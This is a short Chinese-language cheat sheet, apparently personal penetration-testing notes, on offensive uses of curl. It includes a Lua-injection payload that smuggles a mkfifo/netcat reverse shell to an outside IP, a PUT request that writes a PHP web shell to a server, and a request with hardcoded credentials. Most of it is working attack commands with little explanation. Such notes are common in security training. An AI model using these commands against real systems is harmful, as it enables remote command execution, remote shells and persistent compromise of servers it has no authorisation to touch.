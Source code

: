 # curl的一些利用

1. curl带凭据访问

```bash
curl -s http://127.0.0.1:3001/~r.michaels/ -u webapi_user:iamthebest
```

1. **curl强制执行get（多用于注入等）**

例子是lua注入引发的命令执行

```bash
curl -G --data-urlencode "city=') os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.29 8888 >/tmp/f') --" 'http://10.129.18.130/weather/forecast' -s
```

1. 代替wget

```bash
curl -O 【文件】
curl -# -O 【文件】
```

1. 写入文件

```bash
curl -v -X PUT -d '<?php system($_GET["cmd"]);?>' 【写入的文件】
curl --upload-file 【文件名】 -v --url 【写入的文件名】 -0
```

1. 展示允许标头

```bash
curl -v -X OPTIONS 【域名】
```
